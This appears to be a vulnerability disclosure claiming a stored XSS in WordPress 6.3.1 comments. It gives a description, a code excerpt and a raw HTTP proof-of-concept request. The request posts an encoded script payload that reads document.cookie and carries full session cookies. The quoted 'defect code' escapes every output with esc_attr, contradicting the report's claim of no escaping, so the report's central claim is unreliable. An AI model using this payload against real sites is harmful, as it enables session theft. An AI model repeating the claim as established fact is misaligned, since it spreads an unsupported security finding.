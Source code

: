# vul-cve
WordPress -XSS
 Vulnerability description: In WordPress 6.3.1 article comments, because there is no filtering of the incoming comment parameters, and there is no escape when outputting, the attacker only needs to have an editor's identity and above authenticated users. In the post comment area, you can post a message containing xss payload to further steal the super administrator's permissions to take over the entire system. 
 Affected version:<=6.3.1 
 Source code download address: wordpress.org/latest.zip 

 defect code :

 	<td><input type="text" name="newcomment_author" size="30" value="<?php echo esc_attr( $comment->comment_author ); ?>" id="name" /></td>
</tr>
<tr>
	<td class="first"><label for="email"><?php _e( 'Email' ); ?></label></td>
	<td>
		<input type="text" name="newcomment_author_email" size="30" value="<?php echo esc_attr( $comment->comment_author_email ); ?>" id="email" />
	</td>
</tr>
<tr>
	<td class="first"><label for="newcomment_author_url"><?php _e( 'URL' ); ?></label></td>
	<td>
		<input type="text" id="newcomment_author_url" name="newcomment_author_url" size="30" class="code" value="<?php echo esc_attr( $comment->comment_author_url ); ?>" />
	</td>



 POC:
 POST /wordpress/wp-comments-post.php HTTP/1.1
Host: localhost
Content-Length: 187
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/wordpress/2023/09/06/%e6%b5%8b%e8%af%95/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: comment_author_bbfa5b726c6b7a9cf3cda9370be3ee91=1http%3A%2F%2Flocalhost%2Fwordpress%2F2023%2F07%2F31%2Ftesting%2F; comment_author_email_bbfa5b726c6b7a9cf3cda9370be3ee91=2839549219%40qq.com; wp-settings-2=mfold%3Do%26libraryContent%3Dbrowse; wp-settings-time-2=1693292998; wp-settings-time-1=1693556844; wp-settings-1=mfold%3Do%26posts_list_mode%3Dlist%26libraryContent%3Dbrowse%26editor%3Dtinymce; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_bbfa5b726c6b7a9cf3cda9370be3ee91=demo%7C1694075537%7CbygcKHCU1FfgDbRfeOJE9aYpMr03PqN2bl9GqHodLiG%7C5bae49b530a956d198aa4760b847165a444f326ae2d92af98e577dee505d74d5; USER_NAME_COOKIE=admin; SID_1=aa141d36; mailpoet_subscriber=%7B%22subscriber_id%22%3A1%7D; mailpoet_page_view=%7B%22timestamp%22%3A1690903646%7D; PHPSESSID=i9fvb5g4ib54ti6brb1fks6f4l; _wsm_id_1_1fff=f747894a5c5e0ff8.1690537890.5.1693878021.1693878015; cookie_consent={"uuid":"e0216ac2-a197-4cb6-81d4-b1d6e0808a92","cookie_categories":[],"timestamp":1693965620}
Connection: close

comment=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E%0D%0A&submit=%E5%8F%91%E8%A1%A8%E8%AF%84%E8%AE%BA&comment_post_ID=307&comment_parent=0&_wp_unfiltered_html_comment=a811ec86e5
